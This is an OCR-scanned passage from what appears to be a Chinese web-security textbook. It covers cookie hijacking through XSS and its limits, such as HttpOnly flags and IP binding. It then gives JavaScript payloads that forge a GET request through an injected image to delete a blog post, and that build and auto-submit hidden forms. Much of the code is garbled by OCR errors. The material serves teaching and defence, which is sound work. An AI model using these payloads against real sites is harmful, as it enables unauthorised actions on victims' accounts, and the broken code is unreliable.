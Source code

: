 得到用户cookie就可以登录了。



Cookie的“ Httponly”标识可以防止“ Cookie劫持”,



Cookie劫持”并非所有的时候都会有效。有的网站可能会在 Set-Cookie时给关键 Cookie
植入 Httponly标识;

有的网站则可能会把 Cookie与客户端IP绑定,从而使得XSS窃取的 Cookie失去意义。



##### 仿造get请求

正常删除该文章的链接是:
`http://blog.sohucom/manage/entry.do?m=delete&id-156713012`
对于攻击者来说,只需要知道文章的id,就能够通过这个请求删除这篇文章了.
攻击者可以通过插入一张图片来发起一个GET请求:

```
var img = document.createElement(img");
img.src="http://blog.sohucom/manage/entry.do?m=deletesid=156713012";
document body. appendchild(img);
```



##### 模拟表单

要模拟这一过程,有两种方法。第一种方法是,构造一个fom表单,然后自动提交这个表单:

```js
var f= document.createElement ("form");
f.action = "";
f.method ="post";
document.body.appendChild(f)；

var il= document.createElement("input")
i1.name= "ck";
i1.value ="JiUY"
f appendchild(11);
var i2 document.createElement("input");
i2. name mb text":
i2. value="testtesttest
f appendchild(i2):
f, submit()冫
```

如果表单的参数很多的话,通过构造DOM节点的方式,代码将会非常冗长。所以可以直
接写HML代码,这样会使得整个代码精简很多,如下所示:

```
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML='<form action"" method="post" id="xssform" name="mbform">'+
 '<input type"hidden" value="JiUY" name="ck"/>' +
 '<input type="text" value="testtesttest" name="mb text"/>'+
 '</form>'

document. getElementById("xssform"). submit();
```
